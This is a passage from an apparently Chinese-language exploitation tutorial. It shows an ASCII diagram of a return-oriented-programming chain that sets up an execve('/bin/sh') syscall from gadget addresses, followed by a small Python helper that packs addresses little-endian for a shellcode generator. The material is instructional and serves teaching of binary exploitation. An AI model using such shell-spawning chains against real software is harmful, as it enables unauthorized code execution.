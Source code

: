            | "/bin/sh\x00"      |                  |  |     | ...          |
          7+--------------------+                  |  +---->+--------------+5
           | 0x0000000000431b3d |--------------+   |        | pop r12      |
          8+--------------------+              |   |        +--------------+6
           | 0x000000000000003b |              |   |        | pop r13      |
          9+--------------------+              |   |        +--------------+7
           | 0x00000000004333d9 |-----------+  |   |        | ret          |
         10+--------------------+           |  |   |        +--------------+
           | 0x0000000000000000 |           |  |   |        | ...          |
         11+--------------------+           |  |   +------->+--------------+3
           | 0x0000000000000000 |           |  |            | mov rdi, rsp |
         12+--------------------+           |  |            +--------------+4
           | 0x000000000043d371 |-------+   |  |            | call r12     |
         13+--------------------+       |   |  |            +--------------+
                                        |   |  |            | ...          |
                                        |   |  +----------->+--------------+8
                                        |   |               | pop rax      |
                                        |   |               +--------------+9
                                        |   |               | ret          |
                                        |   |               +--------------+
                                        |   |               | ...          |
                                        |   +-------------->+--------------+10
                                        |                   | pop rsi      |
                                        |                   +--------------+11
                                        |                   | pop rdx      |
                                        |                   +--------------+12
                                        |                   | ret          |
                                        |                   +--------------+
                                        |                   | ...          |
                                        +------------------>+--------------+13
                                                            | syscall      |
                                                            +--------------+

为了将大端顺序的地址数值转换为小端顺序的字符串，编写了一个 python 程序 gen_shellcode.py 来生成最终的 shellcode ：

    >>> s= long2bytes(0x5c4)
    >>> s
    '\xc4\x05\x00\x00\x00\x00\x00\x00'
    def long2bytes(x):
        ss = [""] * 8
        for i in range(8):
            ss[i] = chr(x & 0xff)
            x >>= 8
        return "".join(ss)
